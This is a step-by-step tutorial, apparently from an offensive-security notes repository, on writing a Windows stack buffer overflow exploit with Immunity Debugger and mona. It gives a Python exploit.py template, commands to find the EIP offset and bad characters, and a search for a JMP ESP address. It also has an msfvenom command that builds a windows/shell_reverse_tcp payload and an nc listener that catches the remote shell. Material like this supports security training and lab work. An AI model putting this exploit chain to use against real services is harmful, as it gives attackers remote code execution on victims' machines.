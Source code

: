 

## Fuzzing
Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger.
Fuzzing a program to make it crash:
- [Fuzzer 1](offensive/code/fuzzer1.py)
- [Fuzzer 2](offensive/code/fuzzer2.py)

You just have to modify those two variables of the scripts above :
- IP
- PORT
When the application crashes, EIP should be equal to 41414141 (hex value of “AAAA”).

Setting up `mona.py` program working forlder
`!mona config -set workingfolder C:\Program Files (x86)\Immunity Inc\Immunity Debugger\%p`

## Crash replication & controlling EIP

### Pattern
We can generate a cyclic pattern to find the exact offset of the crash with or you can use metasploit to do the job:
```
# Mona
!mona pc <SIZE>

# Metasploit
msf-pattern_create -l <SIZE>
```

The size must be higher than the crash offset. Now modify the payload variable by the cyclic pattern :
```
##!/usr/bin/env python3
# exploit.py

import socket
ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
Re-run the exploit, the application should crash. To find the exact offset of the crash use:</br>
`!mona findmsp -distance <SIZE>`
Size is the same as the one used to create the pattern. The result should be something like:</br>
`EIP contains normal pattern : ... (offset XXXX)`
Get the offset, modify in exploit.py:
- The `offset` variable by the offset
- The `retn` variable by “BBBB”
- Remove the **payload** variable

```
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```
Re-run `exploit.py`, EIP should be equal to 42424242 (hex value of “BBBB”). You now control EIP!

## Finding bad characters
Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (\x00) is always considered a bad character as it will truncate shellcode when executed.
We will send bad characters recursively and analyze if they need to be removed. Let generate the list of bad characters with mona:
`!mona bytearray -b "\x00"`

Copy the results in the variable payload. And re-run exploit.py, the application should crash. Now to found those bad characters use this command :
`!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`

If BadChars are found, we need to exclude them as well.
```
!mona bytearray -b "\x00 + <BAD_CHARS>"
# Example
!mona bytearray -b "\x00\x01\x02\x03"
```
Then compare again :
`!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`
Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.

## Finding a jump point
### JMP ESP - Inside the .exe
`!mona jmp -r esp -cpb "<BAD_CHARS>"`
### JMP ESP - inside a DLL
`!mona modules`
We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a JMP ESP (FFE4), inside the dll: `!mona find -s "\xff\xe4" -m <DLL>`

### Return address
Choose an address in the results and update `exploit.py`:
- Setting the retn variable to the address, written backwards (little-endian)
```
# Example of a JMP ESP address
0x625011af

# exploit.py
retn = "\xaf\x11\x50\x62"
```

## Generate payload
Now we generate our shellcode without the badchars that we found:
`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c`
Copy the generated shellcode and update exploit.py :
- Setting the payload variable equal to the shellcode
## Prepend NOPs
A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
`padding = "\x90" * 16`
Start a listener
`nc -lvp <PORT>`
